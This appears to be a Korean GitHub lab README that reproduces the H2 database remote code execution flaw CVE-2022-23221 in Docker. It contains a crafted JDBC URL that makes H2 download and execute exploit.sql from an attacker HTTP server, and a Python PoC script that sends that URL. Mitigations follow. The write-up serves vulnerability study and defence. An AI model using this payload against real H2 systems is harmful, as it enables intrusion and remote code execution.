







# H2 Database RCE (CVE-2022-23221)

---
- [whs4_1반_고늘상(@straightSang)](https://github.com/straightSang/H2-database-CVE-2022-23221.git)

## 1. 요약

- 참고: https://nvd.nist.gov/vuln/detail/cve-2022-23221

- H2는 입력받은 JDBC URL(DB의 주소)을 파싱해서 자바 애플리케이션과 DB 사이에 연결을 설정하고 쿼리를 처리하는 데이터 베이스 관리 시스템(DBMS)이다. 

- 문제가 되는 H2 2.1.210 이전 버전의 경우, JDBC URL에 [검증 우회 파라미터 + java 명령어]가 포함되어 있을 때 그 명령어를 그대로 실행함으로써 CVE-2022-23221 취약점이 유발된다.

- 이 취약점의 특징은 다음과 같다.
    1.  인증 불필요: 누구나 공격이 가능하다.
    2. 서비스 시작 시 자동실행: 공격자가 설정파일만 수정하면 h2를 사용하는 서비스가 시작할 때 자동으로 RCE 가 된다.
    3. 은폐성: 개발자가 공격을 인지하기 어렵다.
    4. 넓은 피해 범위: H2는 빠르고 가볍다는 장점이 있어 다양한 웹 서비스의 개발/테스트용으로 사용되고 있어 이 취약점의 영향을 받는 사이트의 수가 많다.

- 취약점 영향 범위
    - 영향을 받는 버전: H2 2.1.210 미만
    - 패치 버전: H2 2.1.210 이상
<br><br>


## 2. 취약점 조건

- H2 2.1.210 이전 버전
- JDCB URL에 검증을 우회하는 파라미터를 포함시킨다.
    - IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;INIT=RUNSCRIPT FROM  'http://attacker-ip/acttacker-file’
<br><br><br>

 

## 3. 환경 구성

- 시나리오
    - 취약한 H2 환경을 구성하고, 검증을 우회하는 파라미터가 포함된 JDBC URL을 H2에 입력한다. H2는 이 URL을 제대로 된 검증없이 파싱하고,  attacker 서버로부터 sql 파일을 받아서 실행한다. 만약 h2-vulnerable 서버의 로그에 “EXPLOITED” 문자열과 함께 명령어 `id`, `whoami`, `pwd`의 실행 결과가 출력된다면 이는 취약한 H2 환경이 구성되었고, H2가 변조된 JDBC URL을 파싱하는 과정에서 외부의 attacker 서버로부터 exploit.sql 파일이 원격으로 다운로드되어 실행됐다는 것을 의미한다.
    
- 환경 구성
    
    ```bash
    docker compose up -d 
    ```
    
    
    
    - 명령어를 실행하면 아래의 환경들이 시작된다.
    - **h2-vulnerable**: H2 2.0.206 (패치 전 취약 버전)
        - H2 웹 콘솔: `http://your-ip:8082`
        - TCP 서버: `tcp://your-ip:9092`
    - **attacker**: HTTP 서버
        - `http://your-ip:8000` : `exploit.sql` 파일 제공
        
- 환경구성 후 http://your-ip:8082 에 접속하면 H2 웹 페이지가 나타난다.

    
<br><br><br>


## 4. 재현 절차

: 웹 콘솔에서는 취약조건인 JDBC URL의  INIT 과 RUNSCRIPT 파라미터를 필터링하므로 CLI를 통해서 변조된 JDBC URL을 입력하고 그 결과를 확인한다. 

### [정상 요청 case]

- 정상 JDBC URL: "jdbc:h2:mem:test"

- 정상 요청 명령어
    ```bash
    docker exec h2-vulnerable java -cp /h2-bin/h2.jar org.h2.tools.Shell \
    -url "jdbc:h2:mem:test" \
    -user sa \
    -password ""
    ```
- 실행 결과
    
    - attacker 서버에 들어온 요청없음 
    - h2-vulnerable 서버에 별다른 로그가 출력되지 않음
    
<br>


### [검증 우회(취약점) case]

- 검증 우회 JDBC URL: "jdbc:h2:tcp://h2-vulnerable:9092/mem:test;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;INIT=RUNSCRIPT FROM 'http://attacker:8000/exploit.sql'" 

#### 1. 공격실행

- 검증을 우회하는 JDBC URL을 콘솔에 입력한다. 이때 URL을 입력하는 방법에는 2가지가 있다.
    
    1. 직접 CLI로 요청을 보낸다.
    
    ```bash
    docker exec h2-vulnerable java -cp /h2-bin/h2.jar org.h2.tools.Shell \
      -url "jdbc:h2:tcp://h2-vulnerable:9092/mem:test;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;INIT=RUNSCRIPT FROM 'http://attacker:8000/exploit.sql'" \
      -user sa \
      -password ""
    ```
    
    
    <br>

    
    2. PoC 파일을 실행한다.
    
    ```bash
    python3 poc.py
    ```
    
    

    

#### 2. 파일 요청 및 실행 
- H2는 JDBC URL에 포함되어 있는 Java명령어에 따라 attacker 서버로 exploit.sql 파일을 요청하고 이를 실행한다.  
    1. `docker logs attacker`를 하면 attacker 서버로 들어온 다운로드 요청 로그를 확인할 수 있다.
    ```bash
    docker logs attacker
    ```
        
    
        
    2. attacker 서버는 요청받은 exploit.sql 파일을 반환하고, h2-vulnerable 서버는 받은 exploit.sql 파일을 실행한다. 
<br><br><br>


## 5. poc.py 코드
```python
#!/usr/bin/env python3

# 목적: CVE-2022-23221 H2 Database RCE 상황을 재현하고자 함.
# 과정: 검증 우회 파라미터와 Java 명령어가 포함된 JDBC URL을 H2로 전송하여 원격 코드 실행 공격을 수행함.

import subprocess
import time
import sys

"""
함수 이름: exploit_h2()
기능: H2 DB에 악의적인 JDBC URL을 전달하여 공격을 수행한다.
반환값: True->공격 성공, False->공격 실패
"""
def exploit_h2():
    
    # H2 서버 준비 대기
    time.sleep(3)
    
    # 검증 우회 파라미터가 포함된 JDBC URL
    # IGNORE_UNKNOWN_SETTINGS=TRUE: H2의 입력 검증을 우회함
    # FORBID_CREATION=FALSE: 원격 DB 생성에 대한 경계를 제거함
    # INIT=RUNSCRIPT FROM: 연결(시작) 시 원격 SQL 스크립트를 실행함
    jdbc_url = "jdbc:h2:tcp://h2-vulnerable:9092/mem:test;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;INIT=RUNSCRIPT FROM 'http://attacker:8000/exploit.sql'"
    
    try:
        # H2 Shell을 통해서 악의적인 JDBC URL로 연결됨
        cmd = [
            'docker', 'exec', 'h2-vulnerable',
            'java', '-cp', '/h2-bin/h2.jar',
            'org.h2.tools.Shell',
            '-url', jdbc_url,
            '-user', 'sa',
            '-password', ''
        ]
        
        # Docker 명령어 실행 및 결과
        result = subprocess.run(
            cmd,
            capture_output=True,
            text=True,
            timeout=15
        )
        
        return True
        
    except Exception as e:
        print(f"[-] 에러: {e}")
        return False

"""
함수 이름: main()
기능: 공격 실행 및 공격 성공여부를 출력한다. 
반환값: 없음
"""
def main():

    if exploit_h2():
        print("[+] 공격 완료")
    else:
        print("[-] 공격 실패")
        sys.exit(1)

if __name__ == "__main__":
    main()

```
<br><br>

## 6. 실행결과

- exploit.sql 파일의 실행 결과로 h2-vulnerable 서버의 로그에 “EXPLOITED” 문자열과 함께 명령어 `id`, `whoami`, `pwd`의 실행 결과가 출력된다.

- `docker logs h2-vulnerable`로 로그를 확인할 수 있다.
    ```bash
    docker logs h2-vulnerable`
    ```

    

=> 이는 취약한 h2 환경이 구성되었고, h2가 검증을 우회하는 JDBC URL을 파싱하면서 파일 원격 다운로드 및 실행이 성공했음을 의미한다.

<br>


## 7. 대응방안

- H2 2.1.210 이상 버전으로 업그레이드
    - 패치 내용: INIT 파라미터 실행 제한으로 해당 취약점 제거
    - 릴리스 날짜: 2022-05-15
- JDBC URL 검증 강화: 원격 코드 실행을 유발하는 INIT, RUNSCRIPT 파라미터의 사용을 제한하고, 화이트리스트 기반 방법으로 JDBC URL 입력을 검증한다.
- 설정 및 환경 무결성 모니터링: 설정파일의 변조 여부를 모니터링한다.
